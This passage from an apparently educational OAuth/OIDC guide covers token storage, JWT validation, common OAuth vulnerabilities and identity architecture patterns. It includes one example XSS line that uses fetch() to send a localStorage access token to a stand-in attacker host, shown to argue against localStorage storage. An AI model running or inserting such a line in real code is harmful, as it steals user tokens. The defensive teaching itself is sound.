  if (payload.nonce !== expectedNonce)   throw new Error("Nonce mismatch — replay attack?");

  // Store user identity using composite key
  const stableUserId = `${payload.iss}|${payload.sub}`;
  return { stableUserId, email: payload.email, name: payload.name };
}
```

### 📖 Real-world: "Sign in with Google" dissected



---

## Module 7 — Production patterns and security hardening {#module-7}

### 💡 Token storage — the full trade-off matrix

| Storage | XSS risk | CSRF risk | Survives refresh | Verdict |
|---|---|---|---|---|
| **JS memory** (variable) | Low | None | ❌ No | ✅ Best for access token |
| **`localStorage`** | 🔐 **High** | None | ✅ Yes | ❌ Never store tokens |
| **`sessionStorage`** | 🔐 **High** | None | ❌ No | ⚠️ PKCE state only |
| **`httpOnly` cookie** | None | Medium | ✅ Yes | ✅ Best for refresh token |
| **Server-side (BFF)** | None | None | ✅ Yes | ✅ Recommended for SPAs |
| **OS Keychain/Keystore** | None | None | ✅ Yes | ✅ Required for mobile |

> **🔐 Why `localStorage` is dangerous:**
> ```javascript
> // Any XSS payload on your page can do this:
> fetch("https://attacker.com/steal?t=" + localStorage.getItem("access_token"));
> // Attacker now has your token and can use it from anywhere
> ```

### 💡 The BFF pattern — Backend for Frontend



**The key property:** browser JavaScript can never access tokens — they live only on the BFF server. XSS in the browser cannot steal tokens because the browser doesn't have them.

### 💡 Complete resource server validation checklist

```javascript
import { createRemoteJWKSet, jwtVerify } from "jose";

const JWKS = createRemoteJWKSet(
  new URL("https://auth.example.com/.well-known/jwks.json"),
  { cacheMaxAge: 600_000 } // cache public keys for 10 min
);

async function validateToken(authHeader) {
  if (!authHeader?.startsWith("Bearer ")) {
    throw { status: 401, error: "missing_token" };
  }

  const token = authHeader.slice(7);

  // Library handles: signature ✓  exp ✓  nbf ✓  iss ✓  aud ✓
  const { payload } = await jwtVerify(token, JWKS, {
    issuer:     process.env.EXPECTED_ISSUER,
    audience:   process.env.EXPECTED_AUDIENCE,
    algorithms: ["RS256", "ES256"],  // 🔐 prevents alg:none attack
  });

  // Manual check: does this token have the required scope?
  if (!payload.scope?.split(" ").includes("api.read")) {
    throw { status: 403, error: "insufficient_scope" };
  }

  return payload; // sub, email, roles etc. are now safe to use
}
```

### 🔐 Common OAuth/OIDC vulnerabilities

| Attack | How it works | Prevention |
|---|---|---|
| **Auth code interception** | Malicious app intercepts auth code from redirect | PKCE (now mandatory) |
| **Login CSRF** | Attacker tricks browser into completing attacker's login | `state` parameter |
| **ID token replay** | Stolen ID token re-submitted | `nonce` parameter |
| **Open redirect** | `redirect_uri` manipulated to send code to attacker | Exact URI matching (OAuth 2.1 mandates) |
| **Token leakage** | Token in URL leaks through Referrer header | Never put tokens in URLs |
| **`alg:none`** | JWT header sets no-signature, library skips check | Explicit algorithm allowlist |
| **Issuer confusion** | Dev token accepted in prod (same iss not validated) | Always validate `iss` claim |
| **Audience confusion** | Token for API-A used on API-B | Always validate `aud` claim |
| **Mix-up attack** | Attacker redirects auth code to a different token endpoint | Validate `iss` in authorization response; use `iss` parameter (RFC 9207) |

> **🔐 Mix-up attack explained:** In an environment where a client supports multiple IdPs, an attacker who controls one IdP can redirect the victim's auth code from a legitimate IdP to the attacker's token endpoint. The attacker then uses the legitimate code at the real token endpoint and steals the resulting tokens. **Prevention:** validate the `iss` parameter in the authorization response (RFC 9207), and bind the authorization request to the specific IdP using `iss` in the initial request.

### 💡 OAuth 2.1 — what is changing

```
Removed:       Implicit grant       → use Authorization Code + PKCE
Removed:       ROPC grant           → use Authorization Code + PKCE
Mandatory:     PKCE for ALL flows (public and confidential clients)
Mandatory:     Refresh token rotation
Mandatory:     Exact redirect URI string matching
Prohibited:    Bearer token in URL query strings
```

---

## Quick Reference Cheat Sheet {#quick-reference}

### Which grant type to use?

```
Is a human user involved?
├── No  → Client Credentials
└── Yes
    ├── Has a browser?
    │   └── Yes → Authorization Code + PKCE
    ├── Input-constrained device (TV, CLI)?
    │   └── Yes → Device Code
    └── Building first-party login UI?
        └── Use Auth Code + PKCE (never ROPC)
```

### Grant type quick reference

| Grant | User | Tokens issued | Use case |
|---|---|---|---|
| Client Credentials | No | Access only | Service-to-service, cron jobs |
| Auth Code + PKCE | Yes | Access + Refresh + ID (OIDC) | Web apps, mobile apps |
| Device Code | Yes | Access + Refresh | Smart TVs, CLIs, IoT |
| Refresh Token | Derived | New access + new refresh | Silent renewal |
| ~~Implicit~~ | ~~Yes~~ | ~~Access only~~ | ~~Deprecated — do not use~~ |
| ~~ROPC~~ | ~~Yes~~ | ~~Access + Refresh~~ | ~~Deprecated — do not use~~ |

### JWT validation (resource server must check every field)

```
✅ Signature    — RS256/ES256 with public key from JWKS endpoint
✅ alg          — explicit allow-list, never permit alg:none
✅ exp          — current time must be before expiry
✅ iss          — must match the expected Auth Server URL exactly
✅ aud          — must match this API's own identifier
✅ scope        — must contain the required permission
✅ nbf          — if present, current time must be after not-before
```

### Security non-negotiables

```
1.  PKCE for all Authorization Code flows
2.  Validate state on every callback (CSRF prevention)
3.  Never store tokens in localStorage
4.  Never put tokens in URL query strings
5.  Never send the ID token to an API
6.  Never use email as a unique user identifier — use iss + sub
7.  Explicit algorithm allowlist on the receiving side (no alg:none)
8.  Always validate iss AND aud claims on the resource server
9.  Enable refresh token rotation
10. Client secrets in a secrets manager, never in source code
11. Check email_verified before trusting the email claim
12. Revoke refresh token on logout (RFC 7009 revocation endpoint)
```

### When you need which protocol

| Need | Protocol |
|---|---|
| App calling an API | OAuth 2.0 |
| App needs to know who the user is | OAuth 2.0 + OIDC |
| SSO across multiple apps | OAuth 2.0 + OIDC |
| "Sign in with Google/Apple" | OIDC |
| Service-to-service API calls | OAuth 2.0 (Client Credentials) |
| Need real-time token revocation | Opaque tokens + Introspection endpoint |
| Smart TV / CLI authentication | OAuth 2.0 Device Code |

---

*OAuth 2.0: RFC 6749 · PKCE: RFC 7636 · Device Code: RFC 8628 · JWT: RFC 7519 · JWKS: RFC 7517 · Introspection: RFC 7662 · Revocation: RFC 7009 · OIDC Core 1.0 · OAuth 2.1: draft-ietf-oauth-v2-1 · Mix-up prevention: RFC 9207*

---

## Module 8 — OAuth Architecture Patterns {#module-8}

> These patterns describe **how OAuth flows are structured architecturally** — independent of which grant type is used. Understanding them explains why certain design decisions are made in production systems and why some patterns are considered anti-patterns.

---

### 💡 2-Legged vs 3-Legged OAuth

This is the most searched OAuth architecture concept and the first question engineers ask when they encounter OAuth. The "legs" refer to the number of parties actively participating in the token exchange.

```
                    2-LEGGED OAUTH
                    ──────────────
         ┌──────────────────────────────┐
         │                              │
  [1] ⚙️ Client ──── POST /token ────▶ 🔐 Auth Server [2]
         │           (client_id +        │
         │            client_secret)     │
         │                              │
         │ ◀──── access_token ──────────┘
         │
         │ ──── Bearer token ────▶  🌐 Resource Server
         │
         └──── ONLY 2 PARTIES in the token exchange ────┘
         No user. No consent. App IS the resource owner.

         Grant type: Client Credentials
         The "3rd leg" (Resource Owner / user) doesn't exist.
```

```
                    3-LEGGED OAUTH
                    ──────────────
       👤 Resource Owner [1]
          │
          │ grants consent
          ▼
  [2] ⚙️ Client ─── auth code ──▶ 🔐 Auth Server [3]
          │          exchange          │
          │                           │
          │ ◀── access_token ─────────┘
          │
          │ ──── Bearer token ────▶  🌐 Resource Server
          │
          └── ALL 3 PARTIES actively involved ──────────┘
         User authenticates. User grants consent. App acts on their behalf.

         Grant types: Authorization Code, Device Code
```

| | 2-Legged | 3-Legged |
|---|---|---|
| **Parties involved** | Client + Auth Server | Client + Auth Server + Resource Owner (user) |
| **User present** | No | Yes |
| **Consent screen** | No | Yes |
| **Grant types** | Client Credentials | Auth Code, Device Code |
| **`sub` claim** | The `client_id` | The user's unique ID |
| **Refresh token issued** | No | Yes |
| **Use when** | Machine-to-machine, services, jobs | User-facing apps, human-in-the-loop |

> **📖 Real-world scenario — a bank's mobile app:**
> When you open your banking app and log in → **3-legged** (you are the Resource Owner granting the app access to your account data).
> When the bank's overnight batch job reconciles transactions across all accounts → **2-legged** (no user involved, the batch service uses Client Credentials to call the Core Banking API).
> Both flows coexist in the same system. The mobile app's APIs are protected with 3-legged tokens. The batch job's APIs are protected with 2-legged tokens. The Resource Server validates both — it just reads different claims (`sub` = user ID vs `sub` = service ID).

---

### 💡 Delegated Authorisation — the precise mental model

OAuth is formally described as a **delegated authorisation** framework. Understanding exactly what "delegated" means unlocks every other OAuth concept.

```
DELEGATION DEFINED:
  The Resource Owner (you) permanently own your data.
  You DELEGATE a specific, limited permission to an application.
  The application acts ON YOUR BEHALF — but only within what you permitted.

The trust chain:

  👤 Resource Owner
        │
        │ "I permit this app to read my calendar"
        │ (expresses intent → clicks 'Allow' on consent screen)
        ▼
  🔐 Auth Server
        │
        │ Issues a scoped token encoding the permission
        │ Token says: "caller=MyApp, acting-for=jane@gmail.com, can-do=calendar.read"
        ▼
  📱 Client (MyApp)
        │
        │ Presents token to prove delegated permission
        ▼
  🌐 Resource Server (Google Calendar API)
        │
        │ Verifies the token, checks the scope
        │ "MyApp is allowed to read Jane's calendar — serve the data"
        ▼
  📱 Client receives calendar data — acts on Jane's behalf
```

**What is delegated (scope) vs what is NOT:**

```
✅ DELEGATED:                          ❌ NOT DELEGATED:
  Read your calendar events             Your Google account password
  Post tweets on your behalf            Ability to change your password
  Access your GitHub repos              Access to other users' data
  Read your files in Dropbox            Ability to grant permissions to others
  Scoped, time-limited, revocable       Your identity credentials
```

**The `sub` vs `client_id` distinction in delegated tokens:**

```json
{
  "sub": "user_jane_123",       ← WHOSE data is being accessed (Resource Owner)
  "client_id": "calendar-app",  ← WHO is doing the accessing (Client / delegate)
  "scope": "calendar.read",     ← WHAT was delegated
  "aud": "https://calendar-api.google.com"
}
```

> **📖 Real-world scenario — employee expense app:**
> Jane uses her company's expense management app. She clicks "Connect to Gmail to import receipts." Google's consent screen shows: "Expense App wants to: Read your email." Jane approves. OAuth issues a delegated token: the app can read Jane's emails, but only for receipt detection. It cannot delete emails, send emails, or access her Google Drive. If Jane leaves the company and deactivates the integration, the token is revoked — the app immediately loses access. This is delegation in practice: limited, auditable, and revocable without changing Jane's password.

**Delegation vs Impersonation:**

```
DELEGATION (OAuth):             IMPERSONATION (NOT OAuth):
  App acts ON BEHALF OF user      App pretends TO BE the user
  Token carries both sub + aud    Token only carries sub
  Resource Server knows it's      Resource Server thinks it's
  an app acting for a user        talking directly to the user
  Auditable (which app, what scope) Opaque (no way to distinguish)
  ✅ Correct pattern               ⚠️ Anti-pattern — use Token Exchange
```

---

### 💡 Token Relay pattern — carrying user context through microservices

**The problem:** in a microservice architecture, Service A receives a user's access token (3-legged), then needs to call Service B. But Service B also needs to know the call is on behalf of the original user. Simply forwarding the token is wrong.

```
THE NAIVE (BROKEN) APPROACH — DO NOT DO THIS:

  Browser ──▶ API Gateway ──▶ Service A ──▶ Service B
                                  │
                                  └── Forwards original token ──▶
                                      Service B validates token:
                                      aud = "https://api.example.com/service-a" ≠ Service B
                                      ❌ 401 Unauthorized — audience mismatch

WHY IT BREAKS:
  The original token's `aud` claim is scoped to Service A.
  Service B must reject it — if it didn't, any service could forward tokens
  to any other service, bypassing audience validation entirely.
```

```
THE CORRECT APPROACH — Token Relay via RFC 8693 Token Exchange:

  Browser ──▶ API Gateway ──▶ Service A ──▶ 🔐 Auth Server
                                  │              │
                                  │  POST /token │ Issues NEW token
                                  │  grant_type= │ scoped to Service B
                                  │  token_exchange
                                  │  subject_token = original_user_token
                                  │  audience = service-b
                                  │              │
                                  │◀─────────────┘
                                  │  new token:
                                  │  sub=user_123, aud=service-b, act=service-a
                                  │
                                  └──▶ Service B (with exchanged token)
                                       ✅ aud matches, user context preserved
```

**The `act` (actor) claim in the exchanged token:**

```json
{
  "iss": "https://auth.example.com",
  "sub": "user_123",              ← STILL the original user
  "aud": "https://service-b.example.com",
  "scope": "service-b.read",
  "act": {                        ← Who is ACTING on behalf of the user
    "sub": "service-a"            ← Service A is the actor
  }
}
```

> **📖 Real-world scenario — insurance claims processing:**
> A customer submits an insurance claim via the web portal (3-legged OAuth, user token).
> Portal calls the Claims Service → Claims Service needs to call the Fraud Detection Service.
> The Fraud Detection Service must know: (1) which customer submitted this claim (for audit), (2) that it was called by Claims Service (not directly by the user).
>
> Using Token Exchange:
> - Claims Service exchanges the user's token for a new token scoped to Fraud Detection Service
> - The new token has: `sub=customer_456` (original user) + `act.sub=claims-service` (who called)
> - Fraud Detection Service sees both: the customer context AND the calling service's identity
> - Full audit trail: customer → portal → claims-service → fraud-detection
> - If fraud-detection needs to call sanctions-check, another Token Exchange is made

**When to use Token Relay vs Client Credentials for service-to-service:**

```
USE TOKEN RELAY (RFC 8693) WHEN:
  The downstream service needs to know WHICH USER triggered the call
  Audit logs must trace the original user through the call chain
  Data access must be scoped to the user's entitlements
  Example: claims processing, financial transactions, healthcare records

USE CLIENT CREDENTIALS WHEN:
  The downstream call has no user context (batch job, background sync)
  The service is acting on its own behalf, not a user's behalf
  Example: nightly reconciliation, cache warming, system health checks
```

---

### 💡 Front-channel vs Back-channel — formal architecture definition

These two terms appear throughout OAuth and SAML but are rarely formally defined. They describe the **trust level and visibility** of the communication channel.

```
FRONT CHANNEL                         BACK CHANNEL
──────────────────────────────────    ──────────────────────────────────
Travels through the browser           Direct server-to-server HTTP
URL redirects, query params           Not visible to the browser
Visible in browser history            Not logged by browser plugins
Logged by web servers                 Cannot be intercepted by browser JS
Subject to referrer header leaks      TLS-only, no browser intermediary
Controlled by the browser             Controlled entirely by the server

What CAN safely travel:               What MUST travel here:
  auth_code (short-lived, one-use)      access_token
  state (CSRF token)                    refresh_token
  SAMLRequest (AuthnRequest)            id_token
  SAMLResponse (assertion via POST)     client_secret

What CANNOT travel:                   Security properties:
  access_token (never in URL)           Cannot be intercepted by page scripts
  refresh_token                         Cannot appear in browser history
  client_secret                         Cannot be logged by browser extensions
```

**Architecture diagram — OAuth Auth Code + PKCE showing both channels:**

```
  FRONT CHANNEL (browser-mediated):
  ────────────────────────────────
  Browser ── GET /authorize?code_challenge=... ──▶ Auth Server
  Browser ◀── 302 /callback?code=AUTH_CODE ────── Auth Server
  Browser ── POST SAMLResponse (form submit) ────▶ SP (in SAML)

  BACK CHANNEL (server-to-server):
  ─────────────────────────────────
  App Server ── POST /token + code_verifier ──▶ Auth Server
  App Server ◀── { access_token, id_token } ─── Auth Server
  App Server ── GET /api + Bearer token ─────▶ Resource Server
```

> **📖 Why SAML uses both channels:**
> In SAML SP-initiated SSO, the AuthnRequest travels front-channel (URL redirect) because it's small and doesn't contain sensitive data. The SAMLResponse travels front-channel too (browser form POST) — but it's signed, so tampering is detectable. The browser is just a relay that can't read or modify the signed XML.
> This is why the HTTP-POST binding is safe for assertions even though it passes through the browser: the browser cannot forge a valid signature, so the payload is tamper-evident even if not confidential.

---

### 💡 How everything connects — the N-tier identity architecture

After studying OAuth 2.0, OIDC, SAML, SCIM, and IGA separately, here is the single reference architecture showing where every protocol lives in the complete identity stack — and how a single user login event flows through all of them.

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                        GOVERNANCE LAYER                                     │
│  ┌──────────────────────────────────────────────────────────────────────┐  │
│  │  IGA Platform (SailPoint / Saviynt)                                  │  │
│  │  Access requests · Certification campaigns · SoD · Audit reports     │  │
│  └──────────────┬───────────────────────────────────────────────────────┘  │
└─────────────────┼───────────────────────────────────────────────────────────┘
                  │ joiner/mover/leaver
                  ▼
┌─────────────────────────────────────────────────────────────────────────────┐
│                        IDENTITY LAYER                                       │
│  ┌────────────────────┐      ┌────────────────────────────────────────┐    │
│  │  Active Directory  │      │  HR System (Workday / SAP HR)          │    │
│  │  Source of truth   │◀─────│  Employee data → triggers workflows    │    │
│  │  for who users are │      └────────────────────────────────────────┘    │
│  └─────────┬──────────┘                                                    │
│             │ LDAP                   SCIM 2.0 (automated provisioning)     │
│             ▼                 ┌──────────────────────────────────────┐     │
│  ┌──────────────────────┐     │  Creates/updates/disables accounts   │     │
│  │  PingFederate (IdP)  │────▶│  in all connected SaaS apps          │     │
│  │  Auth Server + IdP   │     └──────────────────────────────────────┘     │
│  └──────────┬───────────┘                                                  │
└─────────────┼───────────────────────────────────────────────────────────────┘
              │
              │ Issues:  SAML Assertions (enterprise SSO)
              │          OIDC ID Tokens (modern apps)
              │          OAuth 2.0 Access Tokens (API access)
              ▼
┌─────────────────────────────────────────────────────────────────────────────┐
│                        AUTH PROTOCOL LAYER                                  │
│                                                                             │
│   SAML 2.0              OIDC                    OAuth 2.0                  │
│   ───────────────────   ──────────────────────  ──────────────────────     │
│   Enterprise SSO        Modern web/mobile SSO   API access tokens          │
│   XML assertions        JSON/JWT                JWT                        │
│   Salesforce/Workday    New SaaS apps            Microservices              │
│   Legacy enterprise     Consumer apps            Machine-to-machine         │
└─────────────────────────────────────────────────────────────────────────────┘
              │
              ▼
┌─────────────────────────────────────────────────────────────────────────────┐
│                        APPLICATION LAYER                                    │
│                                                                             │
│   [Salesforce]  [Workday]  [ServiceNow]  [Custom API]  [Mobile App]       │
│   SAML SSO      SAML SSO   SAML SSO      OAuth 2.0      OIDC + OAuth       │
└─────────────────────────────────────────────────────────────────────────────┘
```

**Tracing a single login event through every layer:**

```
08:55  Jane opens Salesforce → no session found
08:55  SP-initiated SAML: Salesforce builds AuthnRequest → redirects to PingFed
08:55  PingFed receives AuthnRequest → checks Jane's AD session
08:55  Jane's AD session is active (logged in at 08:00) → no re-auth needed
08:55  PingFed queries AD via LDAP: reads mail, givenName, memberOf, department
08:55  PingFed builds SAML Assertion: {email, role=RM, branch=LON-EC2}
08:55  PingFed signs assertion with RSA private key
08:55  Browser POSTs SAMLResponse to Salesforce ACS URL
08:55  Salesforce validates: sig ✓ iss ✓ aud ✓ time ✓
08:55  Salesforce maps Role=RM → Standard User profile
08:55  Jane is in Salesforce ✅ — 2 seconds end-to-end

Protocols touched in 2 seconds:
  LDAP    — PingFed reads Jane's attributes from AD
  SAML    — AuthnRequest + Assertion exchange
  SCIM    — (background) Jane's Salesforce account was created by SCIM when she joined
  IGA     — (background) her group memberships were set by IGA during onboarding
  Kerberos — (background) her AD session was established via Windows login at 08:00
```

**Bilateral vs Multilateral federation — how trust is governed at scale:**

```
BILATERAL FEDERATION:
  Each IdP-SP pair has a directly negotiated trust relationship.
  Trust is established one pair at a time.

  IdP-A ←──(metadata)──▶ SP-1   ← 1 trust relationship
  IdP-A ←──(metadata)──▶ SP-2   ← another trust relationship
  IdP-A ←──(metadata)──▶ SP-3   ← another trust relationship
  Total: N × M relationships

  ✅ Fine for small scale (1 IdP + 5 SPs = 5 relationships)
  ⚠️ Breaks at enterprise scale (5 IdPs + 80 SPs = 400 relationships)

MULTILATERAL FEDERATION (federation hub / registry):
  A central authority vets all members. Members trust the hub's decisions.
  Adding one new member gives them access to all others automatically.

       ┌────────────────────────────┐
       │   Federation Authority     │
       │   (hub / trust registry)   │
       │   Vets and governs members │
       └──────┬─────────────────────┘
              │
    ┌─────────┼──────────┐
    ▼         ▼          ▼
  IdP-A     SP-1       SP-2     ← All trust each other via the hub
  IdP-B     SP-3       SP-4     ← New member = instant access to all

  ✅ Scales to hundreds of members
  📖 Real examples:
     UK NHS Login (healthcare)
     InCommon (US academic)
     eduGAIN (global academic federation)
     UK government's GOV.UK One Login
```

---

*Architecture patterns: RFC 8693 (Token Exchange) · RFC 9207 (OAuth 2.0 Authorization Server Mix-Up Mitigation) · Liberty Alliance ID-FF (Circle of Trust origin) · InCommon / eduGAIN (multilateral federation examples)*
